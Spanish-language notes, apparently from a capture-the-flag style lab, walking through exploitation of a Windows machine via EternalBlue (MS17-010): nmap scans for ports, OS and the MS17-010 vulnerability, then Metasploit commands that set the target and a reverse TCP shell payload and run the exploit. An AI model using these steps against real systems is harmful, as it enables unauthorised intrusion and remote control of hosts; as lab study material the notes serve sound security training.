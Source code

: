 Parte 1:

nmap 10.10.38.140 --scaneo de la ip

nmap -vv -sV -A -O -sC -p 135,139,445,3389 10.10.38.140 --scaneo de los purtos abiertos y sistema operativo

nmap --script smb-vuln-ms17-010 -p445 10.10.38.140 --scaneo para saber si la maquina es vulnerable a este excploit tras la verison del sistema operativo\\

estos 3 pasos se pueden hacer asi: ```nmap -A -p- -T4 --script vuln <ip>```

Parte 2:

usamos msfconsole

search ms17 --para buscar el exploit en metasplit y poder usarlo

use 0 --es el exploit que necesitamos

show options -- para ver que opciones debemos ajustar como el RHOSTS

set RHOSTS 10.10.38.140 --apra poder atacar a la maquina

set payload windows/x64/shell/reverse_tcp --lo dice el ejercicio

run --ejecutamos el exploit

